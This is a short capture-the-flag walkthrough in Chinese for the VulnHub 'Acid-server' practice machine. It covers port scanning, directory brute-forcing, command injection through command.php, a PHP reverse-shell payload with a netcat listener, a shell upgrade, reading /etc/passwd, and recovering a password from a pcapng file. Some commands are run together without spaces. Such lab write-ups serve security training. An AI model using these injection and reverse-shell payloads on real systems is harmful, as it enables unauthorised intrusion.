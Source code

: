 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
### Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http
### Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box
掃/Magic_Box，發現command.php
### Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell
監聽3333port

`$ nc -l 3333`
用php反彈shell成功，最後payload:

`172.16.71.1;php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`
### Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell

`$ python -c 'import pty;pty.spawn("/bin/bash")'`
### Step 5
查找用戶，發現三個可疑帳號acid、saman、root

`$ cat/etc/passwd`
嘗試找尋用戶的可疑文件

`$ find-useracid2>/dev/null`
發現pcapng可疑流量檔案，下載回本地查看
### Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
### Step 7
利用find找到flag.txt，成功！
